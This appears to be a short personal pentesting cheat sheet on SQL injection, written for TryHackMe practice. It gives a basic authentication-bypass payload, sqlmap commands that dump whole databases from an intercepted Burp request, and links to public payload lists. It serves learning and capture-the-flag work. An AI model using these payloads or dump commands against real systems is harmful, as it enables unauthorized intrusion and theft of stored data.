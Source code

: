 ```yaml
---
layout: post 
author: Edwards
date: 2020-11-15 
title: SQL 
math: true
---
```



## Basic SQL Injection
```bash
' or 1=1 -- -
```

## Use sqlmap to dump a database
_sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers._

```bash
sqlmap -r <text.txt> --dbms=mysql --dump
```

- -r use a request intercept with BurpSuite (search request per exemple) 
- -dmbs tells SQLMap what type of database management system it is
- -dump attempts to outputs the entire database

## Example of sqlmap used in Advents of cybersecurity TryHackMe with a burpsuite file.
```bash
sqlmap -r event.request --tamper=space2comment --dump-all -dbms sqlite --answers="follow=Y" --batch
```

## cheat sheet SQL
[!swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
[!payload_list](https://github.com/payloadbox/sql-injection-payload-list)
[SQL_injection](https://tryhackme.com/room/sqlibasics)